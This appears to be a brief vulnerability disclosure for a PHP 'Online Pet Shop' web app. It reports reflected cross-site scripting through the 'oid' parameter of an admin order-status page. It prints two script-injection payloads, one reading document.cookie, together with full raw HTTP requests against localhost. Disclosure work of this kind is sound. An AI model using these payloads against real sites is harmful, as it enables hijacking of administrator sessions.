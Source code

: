 # Online Pet Shop We App v1.0 by oretnom23 has Cross-site scripting (reflected)

BUG_Author: hujianjie

Vulnerability File: /pet_shop/admin/orders/update_status.php

Parameter "oid" (GET), exists XSS vulnerability

Payload1:oid=1"><script>alert(1111)</script>

```
GET /pet_shop/admin/orders/update_status.php?oid=1%22%3E%3Cscript%3Ealert(1111)%3C/script%3E HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Connection: close
```

![image](https://github.com/hujianjie123/picture/blob/main/hujianjie11.png)

Payload2:oid=1"><script>alert(document.cookie)</script>

```
GET /pet_shop/admin/orders/update_status.php?oid=1%22%3E%3Cscript%3Ealert(document.cookie)%3C/script%3E HTTP/1.1
Host: localhost
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=6im5937jlonn632osugpc051rl
Connection: close
```

![image](https://github.com/hujianjie123/picture/blob/main/hujianjiecookie.png)
